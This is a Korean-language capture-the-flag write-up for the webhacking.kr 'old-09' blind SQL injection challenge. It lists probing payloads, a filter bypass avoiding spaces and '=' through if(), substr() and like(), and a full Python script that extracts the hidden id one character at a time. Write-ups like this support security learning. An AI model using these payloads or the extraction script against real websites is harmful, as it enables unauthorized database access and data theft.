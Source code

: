 ```yaml
---
title: ["[Webhacking.kr] old-09 (sqli - 90)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli, blackbox]
---
```

## Intro

![문제 설명](assets/img/writeup/webhacking.kr/old-09/recon.png)

문제에 주어진 코드가 많지 않다.  
`no` 파라미터를 받으며, `no=1`일때 apple을, `no=2`일때 banana를 반환하다.  


## Analysis

```
| id     | no  |
| ------ | --- |
| Apple  | 1   |
| Banana | 2   |
| Secret | 3   |
```
문제에서 주어진 정보에 따르면, 테이블이 다음과 같이 구성되어 있는 것 같다.  

```sql
select id from TBL where no={}
```  
`no`파라미터는 다음과 같은 쿼리문에 넘겨질 것이다.  

인젝션이 가능한지 여부를 확인하기 위해, 간단한 텍스트부터 테스트 해봤자.

```
?no=1+1
?no=2-1
?no=2>>1
?no=floor(1.3)
?no=0 or no=1
...
```
다양한 페이로드를 시도해봤지만 모두 400에러가 떴다.  
`=`을 포함한 각종 연산자와 `and`, `or` 심지어 공백까지 필터링하고 있는 것 같다.

[HackTricks Mysql Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)을 참고해보자.  

```
?no=length(1)
```
동작하는 페이로드를 찾았다.  
해당 페이로드를 응용해보자.  

```
?no=if(length(id)like(11),3,0)
```  
공백과 `=`을 이용하지 않고, mysql함수를 이용한 쿼리이다.  
`id`의 길이가 11이라면, `no` 파라미터에 3이 들어가고,  
11이 아니라면, 0이 들어가는 쿼리이다.  

즉, 비교구문이 참이라면 `?no=3`에 대한 response가 올 것이고,  
거짓이라면 `?no=0`에 대한 response가 올 것이다.  
이걸 응용해서 `id`값을 구할 수 있다.  

`id`의 길이가 11인 것을 알아냈으니,  
`ascii`와 `substr`을 활용해서 `id`값을 한글자씩 계산해보자.  
```
?no=if(ascii(substr(id,1,1))like(116),3,0)
```  
이런 쿼리를 생각해봤는데 또 에러가 난다..  

## Payload

Mysql의 `like`는 대소문자를 구별하지 않는다.  
그래서, `ascii(substr())`, `ord(substr())`, `binary(substr())` 등을 써서 대소문자를 구별해주는게 중요한데,  
`substr()`외에는 동작을 안해서 어쩔 수 없이 `ascii_lowercase`만 비교했다.  

한 가지 문제가 더 발생했는데,  
Burp로 할 땐 동작하던 페이로드가 `requests`로 넘길땐 안됐다.  
`requests`를 사용할 때는 습관적으로 파라미터를 `params`를 이용해서 넘겼는데,  
이 경우에는 URL Encoding이 적용되게 된다.  
아마 서버에서 파라미터 값이 디코딩되기 전에 필터링 함수가 걸려있어서 그런게 아닐까 추정된다.  


```python
import requests
import string

url = 'https://webhacking.kr/challenge/web-09/'
cookies = {
    'PHPSESSID': 'nvvu0h5irc7okp6giavrnsdc9n'
}
id = ''

for i in range (1, 12):
    for j in string.ascii_lowercase:
        payload = f"if(substr(id,{i},1)like('{j}'),3,0)"
        response = requests.get(f"{url}?no={payload}", cookies=cookies) 
        if "Secret" in response.text:
            id += j
            print(id)
            break
```

